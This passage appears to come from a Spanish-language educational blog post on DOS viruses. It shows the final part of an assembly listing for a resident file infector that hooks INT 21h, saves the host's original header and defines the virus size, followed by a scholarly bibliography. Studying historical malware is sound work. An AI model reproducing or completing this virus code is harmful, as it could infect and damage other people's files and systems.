     int 21h                                          ; |_DOS API - Escribir en archivo/dispositivo                                   

close_file:    
    mov ah, 3Eh                                      ; | AH = 3Eh
    int 21h                                          ; |_DOS API - Cerrar archivo                      

exit:    
    pop ds                                           ; restaurar registros y estado CPU
    pop si
    pop dx
    pop cx
    pop bx
    pop ax
    popf

handler_old:    
    db 0EAh                                          ; JMP FAR

vector_int21    dw   ?, ?                            ; vector original de INT 21h (4 bytes)
host_head       db   90h, 90h, 90h, 90h              ; buffer para cabezal original
VIRUS_SIZE      equ  ($ - body)                      ; tamaño del virus
file_size       dw   ?                               ; buffer temporal para tamaño del huésped
tmp_head        db   4 dup (?)                       ; buffer temporal para cabezal viral
ALLOC_SIZE      equ  ($ - body)                      ; espacio a reservar para el virus   

virus ends
end start
{% endhighlight %}

## Bibliografía
{% bibliography -q
   @*[key=Szor2005
   || key=Phalcon-Skism,
   || key=Williams1992] 
%} 